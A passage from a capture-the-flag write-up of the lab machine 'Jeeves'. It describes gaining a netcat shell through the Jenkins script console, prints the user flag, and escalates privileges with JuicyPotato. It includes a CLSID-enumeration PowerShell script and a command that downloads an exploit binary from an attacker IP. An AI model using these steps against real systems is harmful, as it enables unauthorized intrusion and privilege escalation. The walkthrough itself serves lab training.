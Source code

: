 Run the script in groovy script console of jenkins. Once you have shell on netcat, you are user **'Jeeves/Kohsuke'** on the system. you can read the **user.txt**.

`C:\Users\kohsuke\Desktop\user.txt`

e3232272596fb47950d59c4cf1e7066a

## Privilege Escalation

![Jeeves](/assets/img/htb_jeeves/Jeeves-01.png)
> As **SeImpersonatePrivilege** is *Enabled*, we can use potato binaries to priv esc.
{: .prompt-tip }



We need 3 files to be sent from attackers machine on to Jeeves.
1. **JuicyPotato.exe** - For exploiting
2. **nc.exe** - to get the reverse shell
3.  Script to print **cls_ids** for potato to escalate to.

```powershell
New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT | Out-Null
$CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
foreach($a in $CLSID)
{
Write-Host $a.CLSID
}
```
{: file='getclsid_simple.ps1'}

You can download the files via the command below on Jeeves machine.

`cmd.exe /c PowerShell.exe -Command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.17:8000/JuicyPotato.exe', 'JuicyPotato.exe')"
`

[GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) -also worth looking, but coudlnot get it to work.

